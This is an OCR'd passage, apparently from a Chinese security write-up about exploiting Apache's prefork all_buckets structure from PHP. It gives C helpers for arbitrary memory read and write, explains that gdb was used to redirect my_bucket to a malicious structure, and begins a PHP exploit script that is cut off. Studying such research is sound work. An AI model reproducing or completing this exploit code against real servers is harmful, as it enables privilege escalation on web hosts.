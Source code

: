 PHP扩展

```
[root@bogon php-extension]# cat read_mem.c 
#include <stdio.h>
#include <stdint.h>

long read_mem(long addr)

{

return (unsigned long)(*((uint8_t*)(addr)));

}

[root@bogon php-extension]# cat write_mem.c

#include <stdio.h>

#include <stdint.h> `void write_mem(long addr,long data)

{

*((uint8_t*)addr) = data;

}

[root@bogon php-extension]#` 
```

#### 问题

我在Apache 2.4.38 与 Apache 2.4.25中，测试发现all_buckets的地址与共享内存的地址之间的差值，远远不是一个4字节能表示的（bucket索引4字节）。所以在我的演示中，需要通过gdb来修改

```
my_bucket = &all_buckets[bucket];//prefork.c:685 
```

my_bucket的值，来模拟修改bucket，使其指向恶意的prefork_child_bucket结构。

#### PHP利用代码

```
<?php

function read_mem_dword($addr)

{

$ret = 0;

for($j = 0;$j<4;$j++){

$ret += read_mem($addr+$j) * pow(256,$j);

}

return $ret;

}

function read_mem_qword($addr)

{

$ret = 0;
```